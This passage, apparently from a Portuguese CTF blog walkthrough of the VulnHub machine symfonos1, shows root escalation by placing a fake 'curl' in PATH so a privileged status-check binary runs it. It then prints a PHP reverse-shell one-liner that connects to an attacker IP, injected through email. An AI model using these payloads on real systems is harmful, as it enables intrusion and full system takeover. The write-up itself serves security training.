 Também achou a senha do banco de dados, depois vamos verificar isso

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos1/lin3.png)

Então agora verificamos o que esse statuscheck faz

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos1/lin4.png)

Pelo que parece ele faz um `curl`

## Mudando o PATH

O que podemos fazer é um 'curl' mudando o path do nosso usuário, e sendo assim ele vai executar esse curl que a gente criou, que na verdade é um reverse shell de root

```
echo $'#!/bin/sh\n/bin/sh' > curl
chmod +x curl
export PATH=$(pwd):$PATH
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos1/lin5.png)

## Ganhando ROOT

Agora é só correr pro abraço!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos1/lin6.png)

## Flags

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos1/root.png)

# Algo a mais

Tem algumas coisa que seria interessante a gente explorar aqui. Aquele wordpress pra enumerar a vulnerabilidade realmente não encontrei outro modo a não ser copiar e colar do outro blog.

## Outro modo de Reverse Shell

Outro modo, não sei se mais interessante de se garantir um reverse shell é inserir diretamente o reverse no email

```php
<?php $sock=fsockopen("192.168.56.102",444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/vulnhub-symfonos1/reverse.png)

Atualizamos
